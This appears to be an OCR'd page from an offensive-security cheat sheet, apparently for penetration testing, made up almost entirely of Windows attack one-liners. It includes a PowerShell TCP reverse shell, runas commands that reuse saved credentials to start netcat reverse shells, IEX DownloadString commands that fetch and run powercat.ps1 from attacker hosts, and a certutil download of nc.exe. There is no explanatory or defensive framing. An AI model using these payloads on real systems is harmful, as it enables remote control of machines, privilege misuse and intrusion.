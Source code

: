 ```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.49.192',443);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### CMD Runas

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /k \"C:\program files\sl admin\nc.exe\" 172.16.0.1 443 -e cmd.exe"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c ping 172.16.0.1"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.16.2/powercat.ps1');powercat -c 10.10.16.2 -p 443 -e powershell.exe"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c whoami.exe > C:\users\reg_priv\output.txt"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c type C:\users\reg_priv\output.txt"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c net use \\172.16.0.1\winreconpack /user:smbuser smbuser"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c copy \\172.16.0.1\winreconpack\powercat.ps1"
```

```
runas.exe /user:IE8WIN7\reg_priv /savecred "cmd.exe /c certutil -urlcache -f http://172.16.0.1/nc.exe C:\users\reg_priv\nc.exe"
```

### Powercat

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.207/powercat.ps1');powercat -c 192.168.49.207 -p 443 -e cmd.exe"
```

```
powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.192/powercat.ps1');powercat -c 192.168.49.192 -p 443 -e powershell.exe
```

### Invoke-PowerShellTcp.ps1
